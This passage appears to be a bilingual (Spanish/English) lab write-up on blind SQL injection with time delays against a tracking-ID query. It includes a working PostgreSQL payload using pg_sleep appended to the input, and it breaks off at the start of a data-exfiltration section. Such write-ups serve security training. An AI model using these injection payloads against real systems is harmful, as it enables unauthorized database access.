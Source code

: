 - Query SQL

```sql
SELECT * FROM tracking WHERE id = '$INPUT$'
```

- Explotation

![](/img2/Pasted%20image%2020250709132223.png)

> Probamos varias sentencias como and sleep(10), or sleep(10), como no tenemos respuesta podemos probar una sentencia en PostgreSQL, obteniendo así el retraso de 10 segundos.

- Injection

```sql
SELECT * FROM tracking WHERE id = 'fE3ckFcqhjBIOfkv'||pg_sleep(10)-- -'
```

## Inyección SQL ciega con retrasos y exfiltración de datos || Blind SQL injection with time delays and information retrieval

- Query SQL

```sql
SELECT * FROM tracking WHERE id = '$INPUT$'
```

- Explotation

![](/img2/Pasted%20image%2020250709134633.png)